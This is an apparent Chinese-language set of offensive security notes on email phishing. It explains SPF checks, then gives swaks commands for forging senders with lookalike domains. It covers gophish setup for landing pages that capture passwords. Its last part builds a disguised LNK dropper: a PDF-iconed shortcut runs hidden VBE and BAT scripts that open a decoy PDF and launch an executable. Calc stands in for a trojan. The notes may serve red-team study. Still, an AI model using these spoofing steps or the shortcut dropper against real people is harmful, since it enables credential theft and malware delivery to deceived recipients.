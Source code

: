 # 钓鱼专栏

## 邮件发送的原理与SPF 检测

### SPF

发件人策略框架（Sender Policy Framework） 电子邮件认证机制当网易企业邮箱的邮件服务器收到自称发件人是[xiaoyi@xxx.com](mailto:xiaoyi@xxx.com)的邮件，那这封邮件是真的从xxx.com的邮件服务发过来的，还是伪造的呢？这时便可通过查询xxx.com的SPF记录进行判断。

检测xxx.com邮件服务器是否开启SPF.
若未对您的域名添加 SPF 解析记录，则 **黑客可以仿冒以该域名为后缀的邮箱，来发送垃圾或诈骗邮件** 。

#### SPF 记录的语法

一条 SPF 记录定义了一个或者多个 mechanism，而 mechanism 则定义了哪些 IP 是允许的，哪些 IP 是拒绝的。这些 mechanism 包括以下几类：

``all | ip4 | ip6 | a | mx | ptr | exists | include`` 每个 mechanism 可以有四种前缀：

"+"Pass（通过）
"-" Fail（拒绝）
"~" Soft Fail（软拒绝）
"?" Neutral（中立）

```

dig -t txt qq.com //linux
nslookup -type=txt qq.com //winodws

"v=spfl -all   拒绝所有，表示这个域名不会发出邮件"
"v=spfl +all   接受所有"
"v=spf1 ip4:192.168.0.1/24 -all  (只允许这个范围内的ip发送邮件)"
"v=spfl mx -all "(允许当前域名的mx记录对应的ip地址发邮件)
"v=spf1 mx mx：test.example.com -all" (允许当前域名和test.example.com 的mx记录对应的ip地址发邮件)
"v=spf1 a mx ip4: [ip] -all " (允许当前域名的a记录和mx记录和一个指定ip地址发送邮件)
"v=spfl include：example.com -all"（采用和example.com 一样的spf记录）
```

#### 邮箱有SFP的攻击方式：

三方中转伪造发信人(修改字眼)
伪造发件人 system@notice.aIiyun.com.cn (I 是大写的 i  而不是 小写的L)

自建中转伪造发信人（需要自己注册邮箱来实现）
注册一个邮箱开启pop3 转发

- 使用网上一直的邮箱一同
  - 将要发送的邮件导出为EML 模版
  - 修改内置的发件人内容时间等
    swaks --to 收件人 -f 发件人 --data 1.eml --server  smtp.163.com -p  25 -au 账号 -ap 授权码
  - 在收件方会显示是代发的邮件

![1723037479314](image/【17】玄机靶场应急响应/1723037479314.png)

自建伪造高仿邮箱系统
https://blog.csdn.net/y995zq/article/details/122963484

### swaks 工具

基本使用：

```
swaks -t qwpcrqskfb@iubridge.com -f eiraaa@eiraaa.com --body 'this is a test email' --header 'Subject:TEST' --ehlo eiraaa.com
--to <接收方的地址>

--from <要显示的发件人邮箱>

--ehlo <伪造的邮件ehlo头>

--body <邮件正文>

--header <邮件头信息，subject为邮件标题>

--data <源邮件>  #可以使用txt格式的邮件原文进行发送邮件
```

**swaks其实还可以进行更高级的邮件伪造，几乎可以伪造邮件中的每一个参数**

下图为kali 虚拟机上swaks 发给我qq邮箱的邮件，qq邮箱有sfp 所以被识别为垃圾邮件

![1723036194029](image/【17】玄机靶场应急响应/1723036194029.png)

### 钓鱼工具

下面列出一些较为经典高效的网络钓鱼工具,并展示以下gophish 工具的部分功能

- gophish
- mip22
- Tycoon 2FA
- setoolkit
- LoginFish(登录页面伪造)
- nexphisher

#### gophish 工具使用

网上一堆教程，可以参考下下面的教程

https://blog.csdn.net/qq_42939527/article/details/107485116

https://forum.butian.net/share/351

![1723039872358](image/【17】玄机靶场应急响应/1723039872358.png)

具体设置不多说，网上一堆教程，主要看看几个注意的配置

- user&Groups: 设置要钓鱼的对象，邮箱，姓名等，主要就是设置发送的邮箱
- Email Templates  如其名，可以设置邮件要发送的内容，这里可以import  eml文件
- landingpages 设置钓鱼页面，支持import site 直接复制url的页面
- sending profiles 设置发送邮件用的邮箱配置

实践例子：

![1723267708520](image/【17】玄机靶场应急响应/1723267708520.png)

点如里面的链接可以跳转到设置好的页面：

![1723267784676](image/【17】玄机靶场应急响应/1723267784676.png)

如果有登录框输入密码的话，会被抓取到；也可以添加附件诱导下载。

### lnk 文件上线

lnk文件是快捷方式文件，将真正的恶意文件(通常经过免杀处理的) 放在一些隐藏路径下，然后通过修改快捷方式连接的文件路径达到上线的目的

#### 通过隐藏目录的方式执行lnk

创建一个隐藏目录，将要用到的木马exe文件（这个例子中用windows自带的计算器程序来代替）和pdf文件都放在这个目录下，同时写一个bat文件来执行这两个文件

将pdf创建lnk文件放在最外层，改为系统图标（__monk文件路径是隐藏的）

![1723288068500](image/【17】邮件钓鱼/1723288068500.png)

![1723288510098](image/【17】邮件钓鱼/1723288510098.png)

将lnk文件执行路径改为 %windir%\system32\cmd.exe /c  .\\__monk\__MONK\star.vbe
这里用 %windir%\system32\cmd.exe  去触发是为了使用 `.\__monk\__MONK\star.vbe` 这个相对路径，在触发的脚本中有识别当前路径和执行

采用嵌套脚本是想规避弹框

star.vbe

```
' 创建 FileSystemObject 实例
Dim fso, scriptPath, batPath, ws

Set fso = CreateObject("Scripting.FileSystemObject")

' 获取当前脚本的完整路径
scriptPath = fso.GetAbsolutePathName(WScript.ScriptFullName)

' 获取当前脚本的目录
scriptDir = fso.GetParentFolderName(scriptPath)

' 构建要运行的 bat 文件的路径
batPath = fso.BuildPath(scriptDir, "star.bat")

' 创建 WScript.Shell 实例
Set ws = WScript.CreateObject("WScript.Shell")

' 运行 bat 文件
ws.Run """" & batPath & """ /start", 0
```

star.bat

```
@echo off

:: 获取当前批处理脚本的路径
set "scriptDir=%~dp0"

:: 移除结尾的反斜杠
set "scriptDir=%scriptDir:~0,-1%"

:: 打开路径下的 Bagel.pdf
start "" "%scriptDir%\Bagel.pdf"

:: 打开计算器
start calc.exe

:: 退出脚本
exit


```

用010editor 打开lnk文件，注意，是打开lnk文件而不是打开cmd.exe

找到 ICON_LOCATION![1723288827076](image/【17】邮件钓鱼/1723288827076.png)

修改为 .\\\__monk\\__MONK\Bagel.pdf

![1723289185697](image/【17】邮件钓鱼/1723289185697.png)

修改后效果：
![1723289050714](image/【17】邮件钓鱼/1723289050714.png)

再使用010editor 向其中插入全0数据增加大小：

![1723289588839](image/【17】邮件钓鱼/1723289588839.png)

在没有戒备的情况下很容易就觉得这是一个pdf并双击，执行会打开真实的pdf和指定的exe文件。

#### 通过下载的方式执行真正的payload

主要的做法就是lnk文件打开的时候调用的是cmd或powershell 去远程下载payload执行并且远程下载真正的pdf并打开，还没实际测试，后续补充

#### 隐藏参数 

尝试010editor 修改参数段的长度达到让参数不显示，没成功
